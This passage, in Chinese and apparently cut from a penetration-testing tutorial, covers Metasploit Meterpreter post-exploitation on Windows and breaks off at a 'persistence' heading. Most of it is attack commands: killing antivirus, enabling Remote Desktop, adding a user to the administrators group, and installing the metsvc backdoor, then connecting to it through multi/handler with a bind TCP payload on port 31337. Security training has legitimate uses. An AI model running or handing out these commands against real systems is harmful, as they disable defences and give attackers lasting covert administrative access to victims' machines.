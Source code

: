 ```
1.关闭防病毒软件
run killav

run post/windows/manage/killav

```
### 操作远程桌面

```
run post/windows/manage/enable_rdp      \\开启远程桌面

run post/windows/manage/enable_rdp username=test password=test       \\添加远程桌面的用户(同时也会将该用户添加到管理员组)
```

## 后门

Meterpreter的`shell运行在内存中`，目标重启就会失效，如果管理员给系统打上补丁，那么就没办法再次使用exploit获取权限，所以需要持久的后门对目标进行控制。

Msf提供了两种后门，一种是`metsvc(通过服务启动)`，一种是`persistence(支持多种方式启动)`。

### 1.metsvc

```
(1) 使用`run metsvc -h`查看帮助，一共有三个参数。

-A：安装后门后，自动启动exploit/multi/handler模块连接后门

-h：查看帮助

-r：删除后门
```

(2) 安装后门
```
命令：run metsvc
```
![](img/4.png)
命令运行成功后会在C:WindowsTEMP目录下新建随机名称的文件夹，里面生成3个文件（metsvc.dll、metsvc-server.exe、metsvc.exe）。

3)链接后门
```
use exploit/multi/handler
```
payload设置为windows/metsvc_bind_tcp
```
set payload windows/metsvc_bind_tcp
```
然后设置目标ip和绑定端口31337
```
set rhost 192.168.100.84
```
```
set lport 31337
```
运行程序
```
run
```
## 2.persistence
